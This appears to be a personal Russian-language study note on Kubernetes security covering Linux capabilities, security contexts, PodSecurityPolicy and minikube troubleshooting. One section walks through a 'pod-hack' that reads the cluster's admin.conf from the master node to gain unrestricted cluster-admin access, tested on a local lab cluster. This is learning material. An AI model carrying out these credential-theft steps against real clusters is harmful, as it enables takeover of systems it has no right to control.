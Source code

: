 # Безопасность, Capabilities и Pod Security Policies

### Linux Capabilities (группы системных операций):
Делят root права на набор отдельных привелегий:
1. SETPCAP
2. SYS_ADMIN
3. SYS_NICE
4. SYS_TIME - группа с правами изменения системного времени
5. NET_ADMIN
6. NET_RAW

Пример:
1. `docker run --network=host nginx` - запуск контейнера с правами
2. `docker run --network=host --cap-drop CAP_NET_BIND_SERVICE nginx` - запуск контейнера без прав слушать на порту 80
    1. nginx: [emerg] bind() to 0.0.0.0:80 failed (13: Permission denied)

# Security Context:
Это настройки, которые определяют привилегии и доступы, которые будет иметь под и его контейнеры

# Create Pod with user:
1. `kubectl run nginx --image=nginx -n kube-system --as=user1` - Error from server (Forbidden): pods is forbidden: User "user1" cannot create resource "pods" in API group "" in the namespace "kube-system"
2. `kubectl run nginx --image=nginx -n default --as=user1` - создать под в доступном namespace

# Создать pod-hack для похищения config.yaml из кластера для безграничного доступа в кластере:
1. Для запуска под на мастер узле - нужно добавить метку minikube кластеру
    1. `kubectl label node minikube node-role.kubernetes.io/master=""`
    2. `kubectl get nodes` - проверить доступные узлы 
        1. minikube   Ready    control-plane,master   4d20h   v1.26.3
2. `kubectl exec -ti nginx-hack -n default -- bash` - зайти в shell пода
3. `cd /master/etc/kubernetes` - зайти в созданную директорию пода
4. `cat admin.conf` - показать созданный файл
    1. `vi config.yaml` - сохранить локально конфиг файл
5. `kubectl --kubeconfig=config.yaml auth can-i "*" "*"` - проверить доступ на все действия в кластере 
    1. Unable to connect to the server: dial tcp: lookup control-plane.minikube.internal: no such host - нужно поменять хост
    2. `kubectl config view` - server: https://127.0.0.1:62928 - поменять его в созданном локальном config.yaml
    3. `security-context % kubectl --kubeconfig=config.yaml auth can-i "*" "*" -n kube-system` - yes

# PodSecurityPolicy:
PSP - это механизм в Kubernetes, который позволяет администраторам кластера устанавливать политики безопасности для использования подами. PSP позволяет контролировать различные аспекты безопасности, такие как использование привилегий, доступ к хостовой файловой системе, использование пространства имен IPC и другие ограничения.

1. ### `minikube start --extra-config=apiserver.enable-admission-plugins=PodSecurityPolicy --addons=pod-security-policy` - enable PSP (включает использование PodSecurityPolicy)
    1. При запуске с параметром (когда PSP еще не созданы ранее) ВСЕ поды, которые не могут пройти проверки - запуститься не могут
    2. minikube создаст дефолтные разрешительные и запретительные политики и привяжет их
2. https://github.com/rancher/rke2/issues/4313 - "command failed" err="enable-admission-plugins plugin \"PodSecurityPolicy\" is unknown"
    1. `sudo journalctl -u docker` - errors docker
    2. `systemctl status kubelet` - errors kubelet
    3. `vi /etc/kubernetes/manifests/kube-apiserver.yaml` - check apiserver config
        1. `vi /Users/aashabunov/.minikube/machines/minikube/config.json` - minikube config
        2. `vi /Users/aashabunov/.minikube/profiles/minikube/config.json` - minikube config
    4. `sed -i "s/--enable-admission-plugins=PodSecurityPolicy//g" /etc/kubernetes/manifests/kube-apiserver.yaml && sudo systemctl restart kubelet` - delete arg in running minikube cluster
    5. 
